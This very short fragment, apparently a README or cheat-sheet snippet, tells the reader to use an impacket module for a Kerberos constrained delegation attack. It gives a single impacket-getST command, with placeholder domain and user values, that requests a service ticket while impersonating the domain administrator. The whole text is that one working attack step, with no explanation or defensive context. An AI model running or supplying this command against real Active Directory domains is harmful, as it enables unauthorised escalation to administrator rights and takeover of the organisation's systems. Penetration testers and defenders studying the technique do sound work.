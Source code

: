 ## Use this impacket module to perform a Constrained Delegation attack

#### 1) impacket-getST -spn HTTP/DC.DOMAIN.COM -impersonate administrator -dc-ip DC_IP -k -no-pass DOMAIN.COM/USERNAME
